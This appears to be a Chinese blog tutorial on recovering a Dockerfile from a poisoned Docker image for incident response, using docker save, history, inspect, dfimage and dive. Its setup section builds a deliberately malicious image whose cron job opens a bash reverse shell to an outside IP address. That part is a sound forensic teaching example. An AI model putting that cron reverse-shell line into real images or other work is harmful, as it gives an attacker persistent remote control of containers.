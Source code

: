 ```yaml
---
title: 分步指南：Docker镜像解析获取Dockerfile文件
date: 2023-09-20 21:57:24
categories:
  - Docker
tags:
  - 分步指南
description: 在这篇博文中，我们将探讨如何使用Docker镜像解析获取Dockerfile文件。
cover: https://s2.loli.net/2023/09/20/sUFS6zowCbmVJdf.webp
---
```


## 一、概述
当涉及到容器镜像的安全时，特别是在出现镜像投毒引发的安全事件时，追溯镜像的来源和解析Dockerfile文件是应急事件处理的关键步骤。

## 二、环境准备
利用Dockfile构建一个反弹shell的恶意镜像：

```
FROM ubuntu:20.04
RUN  apt-get update &&\
     apt-get install -y cron &&\
     (echo '* * * * * bash -c "bash -i >& /dev/tcp/192.168.99.242/12345 0>&1"'; crontab -l )| crontab
ENTRYPOINT ["cron","-f","&&"]
CMD ["/bin/bash"]

```
## 三、镜像解析Dockerfile
### （1） 镜像文件解析

在镜像的元数据信息中，到镜像构建所使用的 Dockerfile，可以成功解析 Docker 镜像并获取其 Dockerfile 内容，以了解镜像的构建过程和引入的软件包及配置。
```
docker save -o test.tar test:v1.0
 tar -xvf test.tar 
 ```
 ![](https://s2.loli.net/2023/09/20/WfGcAEDaw5sRdFY.png)
 
### （2） docker命令参数

使用docker history 命令查看指定镜像的创建历史，展示只能看到一部分，可以加上 --no-trunc，就可以看到全部信息。
```
docker history test:v1.0 
docker history test:v1.0  --no-trunc
```
![](https://s2.loli.net/2023/09/20/svuPy6DYhi1EoOB.png)

使用docker inspect命令来查看Docker镜像的详细信息，通过–format参数可自行定义输出信息，获取镜像的配置信息。
```
docker inspect --format='{{json .Config}}' test:v1.0
```
![](https://s2.loli.net/2023/09/20/dcrOSksfU196uET.png)
### （3）dfimage

dfimage是一款第三方工具，可用来从镜像中提取 Dockerfile

1. 生成快捷方式，使用dfimage可以输出很详细的 Dockerfile。
```
alias dfimage="docker run -v /var/run/docker.sock:/var/run/docker.sock --rm alpine/dfimage"
dfimage -sV=1.36  test:v1.0
```
![](https://s2.loli.net/2023/09/20/Nuc5ZrzOXFj8tDy.png)

### （4）Docker镜像分析神器 Dive

Dive是一款Docker镜像分析神器，分析和浏览 Docker 容器镜像内部，可以很详细的看到每一层文件的变化。
```
alias dive="docker run -ti --rm  -v /var/run/docker.sock:/var/run/docker.sock wagoodman/dive"
dive test:v1.0
```


